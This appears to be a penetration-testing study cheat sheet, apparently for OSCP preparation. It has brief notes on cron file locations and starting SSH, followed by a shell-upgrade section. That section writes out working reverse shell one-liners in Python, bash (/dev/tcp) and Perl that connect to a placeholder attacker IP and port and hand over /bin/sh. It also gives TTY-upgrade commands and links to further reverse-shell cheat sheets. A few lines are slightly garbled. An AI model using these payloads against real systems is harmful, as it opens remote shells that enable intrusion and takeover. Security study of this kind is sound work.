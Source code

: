 ## /etc/crontab vs crontab
- /etc/crontab
  - Contains everything in one place
  - Only root can edit
  - Able to view which user is running what cron
  - /etc/crontab is public, and readable by anyone
 
- /var/spool/cron/crontab/{user}
  - Users are allowed to create their own cron jobs
  - Only root can edit crontab for user
  - Cron job is private unlike /etc/crontab

## starting and confirming SSH service
```bash
# To start it
sudo systemctl start ssh

#To confirm that the service is running
sudo ss -antlp | grep sshd
```

## port forwarding
- https://docs.gorigorisensei.com/port-forwarding

## upgrade shell
- https://fareedfauzi.gitbook.io/oscp-playbook/reverse-shell/interactive-ttys-shell
- https://github.com/pythonmaster41/Go-For-OSCP
- https://www.schtech.co.uk/linux-reverse-shell-without-python/
- https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet

```bash
#Python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

#non python shell (not 100%)
#This will break you out of the pseudo terminal and into a tty shell, you can then su and carry out all other terminal based commands
/usr/bin/script -qc /bin/bash /dev/null
stty raw -echo; fg; reset

#Bash
echo os.system('/bin/bash')
/bin/sh -i
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done

#Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Ruby:
ruby: exec "/bin/sh"

#Lua
lua: os.execute('/bin/sh')

#From within IRB
```